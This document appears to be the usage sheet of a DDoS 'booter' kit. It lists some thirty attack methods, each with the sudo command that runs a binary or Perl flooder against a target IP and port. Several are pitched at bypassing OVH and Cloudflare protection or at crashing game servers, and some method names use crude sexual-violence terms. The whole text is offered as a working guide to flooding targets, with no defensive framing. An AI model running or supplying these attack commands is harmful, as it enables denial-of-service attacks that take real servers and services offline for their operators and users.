 How to use :

./OVH-AMP %ip% %port%

X-STD : sudo ./X-STD %ip% %port%

SSA : sudo ./ssa %ip%

ETC : sudo ./etc %ip% %port%

OVH : sudo ./ovh %ip% %port% 9999 0 9999

OVH-V2 : sudo ./ovhbypass2 %ip% %port% 999999 udp

STD : sudo ./STD-NOSPOOF %ip% %port%

STCP : sudo ./STCP %ip% %port% 10 -1 999999 ack

HEX : sudo ./HEX OVH %ip% %port% 999999

NUKE-BYPASS : sudo ./HiperOVH %ip% %port%

CLOUDFLARE : sudo ./cloudflare %ip% 10 -1 999999

ETHERA : sudo ./ETHERA %ip% %port%

CPU-SURGE : sudo ./CPU-SURGE TCP %ip% %port% 999999

VALID-SYN : sudo ./WRA %ip% %port% 10 -1 999999

R4P3 : sudo ./gre %ip% 10 -1 999999

NFO : sudo ./NFO %ip% %port% 10 -1 999999

UDP-BYPASSV2 : sudo perl UDP-BYPASS-V2.pl %ip% %port% 5500 999999

UDP-BYPASS : sudo perl UDP-BYPASS.pl %ip% 999999

NULL : sudo perl UDP_NULL.pl %ip% 999999

PATH : sudo perl UDP_BPSS.pl %ip% %port% 5500 9999

UDP-MIX : sudo perl UDP_MIX.pl %ip% 9999

TCP_NUKE : sudo perl TCP_VOX.pl %ip% 9999

OVH-RAPE : sudo perl OVHBYPASS.pl %ip% %port% 9999

GAME : sudo ./GAME-CRASH %ip% %port%

AMP : sudo perl amp.pl %ip% %port% 5500 9999

Twiks : sudo ./Twiks %ip% %port%

35 : sudo perl 35.pl %ip% %port% 1000 300

korkut : sudo ./korkut2 %ip% %port% 10 -1 9999
